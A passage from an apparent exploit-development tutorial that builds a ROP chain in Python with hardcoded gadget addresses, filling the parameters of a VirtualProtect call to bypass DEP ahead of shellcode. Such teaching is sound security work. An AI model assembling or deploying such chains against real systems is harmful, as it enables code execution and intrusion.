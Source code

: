 The `call [0x625070DC]` is the same instruction at the end of the gadget that originally overwrote the first placeholder with the address of the `VirtualProtect` stub which was held by `EAX`. Since this address (`0x625070DC`) already points to a gadget mimicking a return, no further action is needed.

Yet, the second gadget introduces yet another call to a hardcoded pointer (`0x62507104`). This can be handled similarly by reassigning the address this pointer points to, to mimic a return.

This simply just requires appending the following gadgets to the 'prologue' near the beginning of the chain:

```python
rop += struct.pack('<L', 0x625014d5) # pop eax ; ret
rop += struct.pack('<L', 0x625012f7) # pop r32; ret
rop += struct.pack('<L', 0x625014fc) # pop ebx ; ret
rop += struct.pack('<L', 0x62507104) # ebx will be 0x62507104
rop += struct.pack('<L', 0x62501ea9) # mov  [ebx], eax ; mov eax,  [esp+0x24] ; mov  [ebx+0x04], eax ; call  [0x625070DC]  
```

Putting everything together, the sequence of gadges which will overwrite the second and third placeholders in the `VirtualProtect` skeleton will appear as such:

```python
rop += struct.pack('<L', 0x62501eaf) # mov [ebx+0x04], eax ; call  [0x625070DC]
# ! second placeholder overwritten with ret address
rop += struct.pack('<L', 0x62501ecd) # mov  [ebx+0x08], eax ; call  [0x62507104]
# ! third placeholder overwritten with lpaddress (same as ret address)
```

### Overriding the rest of the placeholders

Usually, as you progress deep into a gadget chain, you'll begin to treat certain sequences of gadgets like functions, reusing them as needed. We'll be adopting this approach for the remaining placeholders, which are as follows:

- dwSize
- flNewProtect
- lpflOldProtect

Now that the first three placeholders are overwritten, we will need to increase `EBX` by `0x0C / 0n12` bytes in order to start at the fourth placeholder. Afterwards we will perform the same sequence of gadgets that was used to increase `EBX` by `0x104` to point to the prospective shellcode location:

```python
rop += struct.pack('<L', 0x625014d5) # pop eax ; ret 
rop += struct.pack('<L', 0xfffffff4) # 0 - 0x0c
rop += struct.pack('<L', 0x625016ca) # neg eax ; ret
rop += struct.pack('<L', 0x62501afb) # pop edi ; ret
rop += struct.pack('<L', 0x62501afb) # pop edi ; ret 
# EDI contains a pop/ret instruction in order to simulate a return when an indirect call to EDI is made in the next gadget below
rop += struct.pack('<L', 0x62501e3a) # mov esi, eax ; call edi
rop += struct.pack('<L', 0x6250221c) # add esi, ebx ; ret 
```
